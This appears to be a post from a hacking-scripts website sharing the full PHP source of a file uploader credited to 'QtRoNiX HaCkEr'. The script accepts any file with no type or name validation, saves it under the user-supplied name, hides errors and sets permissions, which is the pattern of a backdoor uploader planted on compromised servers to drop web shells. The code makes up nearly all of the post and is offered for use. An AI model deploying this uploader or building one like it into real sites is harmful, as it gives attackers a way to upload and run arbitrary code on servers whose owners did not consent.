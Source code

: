 ```yaml
---
id: 205
title: Script Upload By QtRoNiX HaCkEr
author: admin
layout: post
guid: http://hackingscripts.com/?p=205
permalink: /script-upload-by-qtronix-hacker/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

A simple uploader script by QtRoNiX HaCkEr.

## Script Upload By QtRoNiX HaCkEr Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
echo '&lt;center&gt;&lt;font color="Red" size="4"&gt;';
/// Script Upload By QtRoNiX HaCkEr \\\
if(isset($_POST['Submit'])){
	$filedir = ""; 
	$maxfile = '2000000';
	$mode = '0644';
	$userfile_name = $_FILES['image']['name'];
	$userfile_tmp = $_FILES['image']['tmp_name'];
	if(isset($_FILES['image']['name'])) {
		$qx = $filedir.$userfile_name;
		@move_uploaded_file($userfile_tmp, $qx);
		@chmod ($qx, octdec($mode));
echo"&lt;center&gt;&lt;b&gt;Done ==&gt; $userfile_name&lt;/b&gt;&lt;/center&gt;";
}
}
else{
echo'&lt;form method="POST" action="#" enctype="multipart/form-data"&gt;&lt;input type="file" name="image"&gt;&lt;br&gt;&lt;input type="Submit" name="Submit" value="Upload"&gt;&lt;/form&gt;';
}
echo '&lt;/center&gt;&lt;/font&gt;';
?&gt;
</pre>
